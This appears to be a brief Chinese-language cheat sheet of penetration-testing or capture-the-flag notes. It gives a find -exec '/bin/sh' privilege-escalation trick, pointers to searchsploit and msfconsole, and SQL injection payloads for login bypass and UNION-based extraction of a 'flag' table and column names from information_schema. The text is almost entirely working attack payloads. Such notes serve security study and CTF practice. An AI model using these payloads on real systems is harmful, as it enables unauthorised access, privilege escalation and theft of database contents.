 ### `find` 提权

```
1. find ./ acce -exec '/bin/sh' \;

2. touch bcce
find bcce -exec '/bin/sh' \;
```

### `searchsploit`

```
msfconsole
searchsploit
/usr/share/exploitdb
```

### `SQL` 注入

```
username=a' or 1 #
a' or 1 union select 1,group_concat(flag),3 from flag#            

table_schema=database();                           


admin' or '1'='1' 
union select 1,group_concat(column_name),3 
from information_schema.columns 
where table_name='flag'#
```


